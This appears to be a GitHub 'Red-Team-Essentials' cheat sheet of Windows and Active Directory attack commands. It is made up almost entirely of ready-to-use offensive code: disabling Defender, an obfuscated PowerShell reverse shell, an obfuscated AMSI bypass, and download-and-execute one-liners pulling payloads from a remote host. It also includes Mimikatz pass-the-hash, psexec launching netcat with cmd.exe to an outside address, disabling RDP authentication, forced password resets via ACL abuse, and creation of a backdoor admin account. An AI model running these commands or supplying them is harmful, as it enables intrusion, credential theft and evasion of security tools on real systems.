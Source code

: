 # Red-Team-Essentials

#Disable Defender 



<p>Set-MpPreference -DisableRealtimeMonitoring $true<p>

#Fore-Change PAssword - generic All 


<p>Set-DomainObjectOwner -Identity stgadm -OwnerIdentity hexninja<p>
<p>Add-DomainObjectAcl -TargetIdentity stgadm -PrincipalIdentity hexninja<p>
<p>$newpass = ConvertTo-SecureString -String 'Password123! -AsPlainText -Force<p>
<p>Set-DomainUserPassword -Identity stgadm -AccountPassword $newpass<p>


#Powershell Reverse Shell one Liner (AMSI Bypass)


$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = "lol";Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()

#Powershell Download in V4 and V5

 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 
 #Ptt using mimikatz
 

Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:xyz.local /ntlm:ce03434e2f83b99704a631ae56e2146e /run:powershell.exe"'
 
 
 #psexec 
./ps.exe \\\localip -h -accepteula -u username -p password cmd /c 'C:\nc.exe 192.168.50.138 4444 -e cmd.exe'
 
#Check Powershell Version 

 $PSVersionTable.PSVersion

#Download File Powershell V2 

(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 

#Download Execute Powershell One Liner 

powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')

#AMSI Bypass

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 
 #Remote desktop login through domain user credentials 
 
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 
 #Download Execute powershell
 
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 
 #Pivoting using sshutle when you have rsa keys 
 
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24


 #Adding user on windows cmd line & adding it to local admin group 
 
net user hexninja lolbr654$@123 /ADD

net localgroup administrators hexninja /ADD

